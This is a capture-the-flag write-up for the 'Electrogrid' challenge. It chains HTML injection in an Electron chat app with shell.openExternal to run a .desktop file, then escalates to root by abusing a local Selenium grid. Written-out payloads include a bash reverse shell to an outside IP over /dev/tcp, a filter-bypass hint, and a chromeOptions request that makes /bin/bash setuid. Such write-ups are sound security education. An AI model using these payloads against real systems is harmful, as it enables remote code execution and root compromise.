

# Electrogrid

## Initial Foothold

We are provided with a downloadable `UserLandCityPC-1.0.0.AppImage` file. This is an Electron app image. We can extract the source code either by using `binwalk` or running the app image with the `--appimage-extract` option.

This gives us the `app.asar` file, which we can again extract using

```shell
asar extract app.asar ./
```

which gives us the Electron app's source code.

At this point we can start running the Electron app, proxying the traffic through Burp Suite:

```
electron --proxy-server=127.0.0.1:8080 --enable-logging .
```

At the moment it does not load anything, but we will come back to this later.

<figure><figcaption></figcaption></figure>

Let's begin by taking a look at `index.js`.

```javascript
const { app, BrowserWindow, shell, ipcMain } = require('electron');
const path = require('path');
const { download } = require('electron-dl');
const fs = require('fs');

const createWindow = () => {
    const win = new BrowserWindow({
        autoHideMenuBar: true,
        webPreferences: {
            preload: path.join(__dirname, 'preload.js'),
        },
        show: false,
        icon: path.join(__dirname,'static/userlandprivate.png')
        
    });

    win.maximize()

    win.loadFile('index.html');
    win.once('ready-to-show', () => {
        win.show()
    })

    ipcMain.on('handle-links',(event,task,url)=>{
        if (task === 'download') {
            const downloadPath = '/opt/userland/';
            const filename = url.split('/').pop();
            const filepath = `${downloadPath}${filename}`;
            
            fs.access(filepath, fs.F_OK, async (err) => {
                if (err) {
                    await download(BrowserWindow.getFocusedWindow(), url, { directory: downloadPath })
                    win.webContents.send('file-downloaded', `File Imported at: ${downloadPath}${filename}`)
                    return
                }

                win.webContents.send('file-downloaded', `File Already Exists At: ${downloadPath}${filename}`)
            })
        }
        else {
            shell.openExternal(url)
        }
    })
}


app.whenReady().then(() => {
    createWindow();
});
```

A couple things of note here:

* When the browser window is launched, the `preload.js` script is first run. This script has access to the Electron APIs.
* The `handle-links` IPC event is handled by either saving the file to disk if it is a downloadable file, or using `shell.openExternal` to open the URL.

The `shell.openExternal` function is [dangerous](https://benjamin-altpeter.de/shell-openexternal-dangers/) when used on untrusted user input, because it will “open the given external protocol URL in the desktop’s default manner”. This means that if `shell.openExternal` opens a local file using the `file:` protocol, it can automatically run executable files. We will come back to this later.

For now, we can look at `preload.js`.  We see that the preload script exposes the `handle-links` IPC event to the renderer context through the `click` event handler.

```javascript
const { contextBridge, ipcRenderer } = require('electron')

const handleAnchorClick = (event) => {
    
    const a = event.target.closest('a');
    
    if (!a) {
        return;
    }

    const href = a.getAttribute('href');
    const download = a.hasAttribute('download');

    if (download) {
        const downloadUrl = a.href;
        ipcRenderer.send('handle-links', 'download', downloadUrl)
        event.preventDefault();
        return;
    }

    ipcRenderer.send('handle-links', 'openLink', href)
    event.preventDefault();
}

window.addEventListener('click',  (event) => {
    handleAnchorClick(event);
});

contextBridge.exposeInMainWorld('electronAPI', {
    fileDownloaded: (callback) => ipcRenderer.on('file-downloaded', callback)
});
```

This means that anytime a link is clicked, the `handle-links` IPC event is fired and either a file is downloaded or `shell.openExternal` is called.

It looks like we need to trigger an arbitrary URL link click, but we are not sure how yet. Let's now take a look at the rendered HTML.

```markup
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="Content-Security-Policy" content="default-src 
'self';connect-src 'self' http://127.0.0.1:9000;style-src 
'unsafe-inline' https://cdn.jsdelivr.net;style-src-elem 'self' 'unsafe-inline' https://cdn.jsdelivr.net;img-src 'self' 'unsafe-inline' 
http://127.0.0.1:9000;" />
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.0.0/dist/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous">
    </head>

    <body>
        <div id="root">
        </div>

        <script src="./src/js/app.js"></script>
    </body>
</html>
```

In order to get the Electron app working properly, we must change the CSP in the above HTML, replacing `127.0.0.1` with the target server's IP. Additionally, in `app.js` , the `BACKEND_URL` also needs to be changed.

```javascript
/***/ "./src/js/config.json":
/*!****************************!*\
  !*** ./src/js/config.json ***!
  \****************************/
/***/ ((module) => {

        module.exports =
          JSON.parse('{"BACKEND_URL":"http://10.129.228.64:9000"}');

        /***/
})
```

After this, the Electron app should run proper!

The `app.js` is minified, but at the end of the file we find the base64-encoded source map. Decoding it gives a JSON source map, from which we can recover the React source code.

<figure><figcaption></figcaption></figure>

```python
import json
import os

with open("idk.json") as f:
    data = json.load(f)

sources = data["sources"]
sourcesContent = data["sourcesContent"]

for i in range(len(sources)):
    sourcePath = sources[i].replace("webpack://", "./")

    os.makedirs(os.path.dirname(sourcePath), exist_ok=True)

    with open(sourcePath, "w") as f:
        f.write(sourcesContent[i])
```

In `mainUIComponents/messages.js`, an obvious HTML injection is achieved through regular messages.

```javascript
if (message.type === 'file') {
  if ( message.message.split('.').pop() === 'png' || message.message.split('.').pop() === 'jpg' || message.message.split('.').pop() === 'jpeg' || message.message.split('.').pop() === 'gif') {
    return (
      <div className='message in' key={message.id}>
        <div className='showimg'>
          
          <a className='an'
            download
            href={`${configData.BACKEND_URL}${message.message}`}
          >
            Download
          </a>
        </div>
      </div>
    );
  } 
  else {
    return (
      <div className='message in' key={message.id}>
        ...
        <a className='an' download
            href={`${configData.BACKEND_URL}${message.message}`}
          >
            Download
          </a>
      </div>
    );
  }
}
else {
  return (
    <div
      className='message in'
      key={message.id}
      dangerouslySetInnerHTML={{ __html: message.message }}
    ></div>
  );
}
```

This allows us to send files for the admin to download, and a corresponding link pointing to that file using `<a href="file:///opt/userland/<filename>">click me</a>`.

For instance, I can spawn the Calculator app on my Mac.

<figure><figcaption></figcaption></figure>

Since the remote server is running Linux, we need a slightly different way of gaining code execution. Internally, `shell.openExternal` will use the `xdg-open` program to open files. This will not executable binaries, but will instead likely open them with other programs like hex editors.

However, on Ubuntu, `.desktop` files _are_ executed by `xdg-open`, allowing us to specify an executable to be run when the `.desktop` file is opened. For example, here's a `.desktop` file&#x20;

```
[Desktop Entry]
Encoding=UTF-8
Version=1.0
Type=Application
Terminal=false
Exec=/bin/bash -c "bash -i >& /dev/tcp/10.129.228.64/1338 0>&1"
Name=RCE
```

### The XSS Rabbit Hole

I was working on this challenge in the final few hours of the CTF and wasted a lot of time on this rabbit hole, so I thought I'd discuss it here (perhaps as a lesson learnt as both a CTF player and a challenge author).

At this point, I thought I needed to:

1. Send a reverse shell payload to the admin
2. Force a `click` trigger on the download link
3. Send a `file:///opt/userland/<filename>` link
4. Force another `click` trigger on the file link

This made the assumption that the exploit needed to be 0-click. I was quite strongly convinced of this because

1. I had tried to send a link to my IP address but did not receive a callback - but this might be because I had been trying a lot of different payloads prior to that, and the admin bot might have "died" from previous payloads at that point.
2. There was a very easily-bypassable filter in the server-side logic for sanitizing messages. For instance, sending `onerror` would result in the `onerror` attribute being stripped from the final message. This is bypassable using uppercase characters.\
   \
   Since a 1-click exploit that requires the admin to click on both links does not require the bypass of such a filter (the filter did not sanitize `<a>` tags, it only made sense to me that this was introduced as another part of the challenge to create a working XSS filter evasion payload.
3. Most client-side web CTF challenges do not make the admin bot perform any extra interactions, and if they do, the source would be provided for the user to check - but again, this is not a "web" challenge per se.

A _slight_ issue with performing XSS is the CSP restricts scripts to `self`. Since we are inserting HTML through `innerHTML`, `script` tags do not work and so we cannot simply load an uploaded file as a script.

I did, however, manage to get an XSS working locally by framing an uploaded file. Since we know that the admin bot and the API server reside in the same box, we could theoretically upload a file and use `<iframe src="file:///path/to/upload/folder/exploit.html>` to achieve XSS on the admin.

<figure><figcaption></figcaption></figure>

But since we don't know the local path of the uploaded files on the server, this is not exploitable (unless we are guess-gods).

In hindsight, that was probably too much of a logical leap and I should have thought simpler [🥲](https://emojipedia.org/smiling-face-with-tear/)

## Privilege Escalation

After gaining a reverse shell, we can see that there is a Selenium server running locally as `root`.

```
root         654  0.0  0.1  19896  2504 ?        Ss   18:14   0:00 /usr/sbin/cron -f -P
root         660  0.0  0.1  23384  2300 ?        S    18:14   0:00  _ /usr/sbin/CRON -f -P
root         672  0.0  0.0   2888   744 ?        Ss   18:14   0:00      _ /bin/sh -c java -jar /root/selenium-server-4.4.0.jar standalone --host 127.0.0.1
root         674  0.2  2.2 3080056 44540 ?       Sl   18:14   0:06          _ java -jar /root/selenium-server-4.4.0.jar standalone --host 127.0.0.1
```

From the Selenium [documentation](https://www.selenium.dev/documentation/legacy/selenium\_3/grid\_setup/), exposing the Selenium Grid to external access is dangerous.

> The Selenium Grid must be protected from external access using appropriate firewall permissions.
>
> Failure to protect your Grid could result in one or more of the following occurring:
>
> * You provide open access to your Grid infrastructure
> * You allow third parties to access internal web applications and files
> * You allow third parties to run custom binaries
>
> See this blog post on [Detectify](https://labs.detectify.com/), which gives a good overview of how a publicly exposed Grid could be misused: [Don’t Leave your Grid Wide Open](https://labs.detectify.com/2017/10/06/guest-blog-dont-leave-your-grid-wide-open/).

Because of the sensitive actions that can be performed, the grid is usually only exposed to `localhost`. Since we now have access to the local Selenium grid, and it is being run as `root`, we can make use of it to escalate our privileges.

The API details can be found in Selenium's [documentation](https://www.selenium.dev/documentation/webdriver/drivers/). For instance, to start a new browser session:

```http
POST /session HTTP/1.1
Content-Type: application/json; charset=utf-8
Host: localhost:4444
Connection: Keep-Alive
Accept-Encoding: gzip

{
  "capabilities": {
    "alwaysMatch": {
      "browserName": "chrome"
    }
  }
}
```

But we can also pass in extension capabilities that change the browser-spawning behaviour.

<figure><figcaption></figcaption></figure>

In our case, we can specify the `binary` and `args` Chrome options to run any command as `root`.

```json
{
    "capabilities": {
        "alwaysMatch": {
            "browserName": "chrome",
            "goog:chromeOptions": {
                "binary": "/bin/sh",
                "args": ["-c", "chmod +s /bin/bash"]
            }
        }
    }
}
```

In this case we gave SUID permissions to `/bin/bash`, allowing us to run `bash -p` to get a root shell.

<figure><figcaption></figcaption></figure>
